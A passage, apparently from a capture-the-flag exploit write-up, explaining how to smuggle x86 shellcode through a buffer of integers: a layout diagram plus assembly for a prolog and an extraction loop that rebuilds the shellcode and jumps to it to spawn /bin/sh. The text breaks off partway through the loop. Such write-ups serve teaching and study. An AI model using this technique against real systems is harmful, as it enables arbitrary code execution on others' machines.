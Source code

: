 ```
            prolog
    /----   jmp
    |
    |   tuples:
    |       0x????AABB
    |       0x????CCDD
    |       ...
    |       0x????YYZZ
    |
    \--->   extract AABB CCDD ... YYZZ <----\
                                            |
            jmp ----------------------------/

```
This idea seems nice but there are some limitations. The "prolog" and "extract" parts can be 
very tricky, and must consist of 2 (or 3 if we're lucky) byte instrutions. Let's start:

When we enter the shellcode region, eax points to the beginning of that region. If we want
to execute a single byte instruction, we're looking for an integer that after casting will
have the form: 0x??01ebKK

Here, KK is the desired 1 byte instruction and ?? can be anything. The idea is to execute KK
and then skip the last byte by executing a jmp +1. I found that there's an integer for every 
1 byte instruction, so we're fine. Let's see the prolog:
```assembly
    nop                             ; real reversers always start with nop
    nop                             ;
    push    eax                     ;
    push    eax                     ;
    pop     edx                     ; edx = entry point
    pop     ebx                     ; ebx = entry point
    jmp     70h                     ; skip tuples
``` 

Note the first limitation here: jump instruction must be 2 bytes long, so the maximum (positive)
offset is 0x7F. With 2 bytes of shellcode per 4 bytes we can have up to 62 bytes of shellcode.
That's ok for a /bin/sh, but not for other ones.

Then the hard part follows: Extract this shellcode and execute it. If we extract the shellcode
at the beginning of the buffer, and do not modify eax then we do a "jmp eax" (which is only 2 
bytes) and jump to the shellcode.

Let's see the "extract" part:
```assembly
    mov     bl, 0x1c                ; bl points to the tuple area (addresses are fixed)
    xor     ecx, ecx                ; ecx = 0
    mov     cl, 0x20                ; ecx = 32

EXTRACT_NEXT:
    push    word ptr [ebx]          ; first 2 bytes of the shellcode on stack (3B instruction)
    inc     ebx                     ; move on the next tuple 
    inc     ebx                     ;
    inc     ebx                     ;
    inc     ebx                     ;

    push    word ptr [ebx]          ; next 2 bytes of the shellcode on stack (3B instruction)
    inc     ebx                     ; move on the next tuple
    inc     ebx                     ;
    inc     ebx                     ;
    inc     ebx                     ;

    pop     ebp                     ; ebp contains 4 bytes of the shellcode (watch out endianess)
    mov     dword ptr [edx], ebp    ; store the 4 bytes at the beginning of the region (2B instruction)
    inc     edx                     ; move on the next free slot
    inc     edx                     ;
```